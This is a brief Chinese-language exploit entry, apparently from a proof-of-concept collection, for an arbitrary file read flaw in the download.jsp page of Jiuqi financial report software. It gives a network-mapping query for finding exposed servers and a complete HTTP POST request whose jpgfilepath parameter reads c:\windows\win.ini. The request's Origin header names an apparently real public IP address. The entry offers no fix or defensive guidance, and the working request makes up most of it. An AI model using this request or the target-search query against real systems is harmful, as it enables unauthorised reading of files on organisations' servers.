 # 久其财务报表 download.jsp 任意文件读取漏洞

## 漏洞描述

久其财务报表 download.jsp 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的信息

## 漏洞影响

```
久其财务报表
```

## 网络测绘

```
body="/netrep/"
```

## 漏洞复现

登录路径如下



![](./images/202202101905343.png)



发送请求包



```plain
POST /netrep/ebook/browse/download.jsp HTTP/1.1
Host: 
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://114.251.113.53:7002
Content-Type: application/x-www-form-urlencoded

jpgfilepath=c:\windows\win.ini
```



![](./images/202202101905484.png)